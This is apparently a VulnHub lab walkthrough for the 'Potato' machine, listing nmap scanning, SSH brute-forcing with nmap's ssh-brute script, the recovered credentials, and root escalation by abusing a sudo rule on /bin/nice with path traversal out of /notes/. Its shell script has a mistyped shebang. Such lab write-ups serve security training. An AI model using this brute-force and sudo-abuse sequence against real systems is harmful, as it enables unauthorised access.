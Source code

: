 # VulnHub Walkthrough: 🥔 Potato

## Part 1

1. Find Target: `netdiscover -r <Kali IP>`

2. Scan the target network: 
     * `nmap -A -p0-65535 <IP>`
     * Open ports: SSH, TCP, FTP

3. Brute-force SSH using nmap script
     * `nmap -vv -script=ssh-brute.nse -p 22 <IP>`     * -vv: Increased verbosity
     * -script: nmap script
     * -p: target port
     * Found Credentials - username: ***webadmin*** | password: ***dragon***

4. Login to SSH using found credentials
     * `ssh webadmin@<target ip> -p 22` --> password: dragon

5. Next use ls to reveal users.txt: `ls -halt`

6. Run `sudo -l` to see what permissions the user has.

## Part 2

7. Discover that the *webadmin* can use ==> `/bin/nice` & `/notes/*`

8. So `/bin/nice` can be used to execute, then files in the `/notes/*` can be executed
     * Knowing this, we create a simple script, `root.sh`, that will deploy a bash shell:
```sh
#/bin/bash
bash -e
```

9. We can use the following command to deploy the script:
     * `sudo /bin/nice /notes/../home/webadmin/root.sh` (you may need to `chmod +x root.sh` beforehand.

10. You're in. `cat /root/root.txt`
